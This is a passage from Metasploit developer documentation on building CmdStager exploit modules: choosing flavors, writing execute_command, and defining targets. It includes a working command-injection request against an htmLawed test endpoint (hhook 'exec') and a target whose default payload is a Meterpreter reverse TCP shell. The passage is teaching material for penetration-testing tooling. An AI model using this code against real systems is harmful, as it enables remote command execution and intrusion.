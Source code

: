 Or, you can pass this info to the `execute_cmdstager` method (see Step 4 to begin).

```ruby
execute_cmdstager(flavor: :vbs)
```

However, it is best to set the compatible list of flavors in `CmdStagerFlavor`, rather than hard-coding the flavor in the `execute_cmdstager` method call, as this allows the operator to choose a flavor from `msfconsole` with `set CmdStager::flavor`


**3. Create the execute_command method**

You also must create a ```def execute_command(cmd, opts = {})``` method in your module. This is how you define how to execute a command on the target.  The parameter `cmd` is the command to execute.  When writing the ```execute_cmd``` method, remember that a great deal of work might already be done for you.  Here is an example of a web host that executes a command as part of a request:
```ruby
  def execute_command(cmd, _opts = {})
    populate_values if @sid.nil? || @token.nil?
    uri = datastore['URIPATH'] + '/vendor/htmlawed/htmlawed/htmLawedTest.php'

    send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(uri),
      'cookie' => 'sid=' + @sid,
      'ctype' => 'application/x-www-form-urlencoded',
      'encode_params' => true,
      'vars_post' => {
        'token' => @token,
        'text' => cmd,
        'hhook' => 'exec',
        'sid' => @sid
      }
    })
  end
```
Since the command is encapsulated within a request, it will be encoded for us.  When building and debugging an execute_command method that uses web requests, remember that `set httptrace true` will automatically display the http traffic as it is sent and received.

**4. Decide on the supported payloads**

CmdStagers are intended to support payloads that are uploaded, saved to disk, and launched, but many of the payloads in Metasploit Framework do not need to be saved to disk; these payloads are `ARCH_CMD` payloads that rely on software already present on the target system like `netcat`, `bash`, `python`, or `ssh`.  Depending on whether the payload needs to be saved to disk or not changes what payloads are supported and how we launch the payload, so we must provide the user the ability to pick between the two.
The best way to let the user decide what kind of payload to use is by defining separate [[targets|Get-Started-Writing-an-Exploit.md]]

Here is an example targets section from a command injection module:

```ruby
    'Targets' => [
      [
        'Unix Command',
        {
          'Platform' => 'unix',
          'Arch' => ARCH_CMD,
          'Type' => :unix_cmd,
          'DefaultOptions' => {
            'PAYLOAD' => 'cmd/unix/python/meterpreter/reverse_tcp',
            'RPORT' => 9000
          }
        }
      ],
      [
```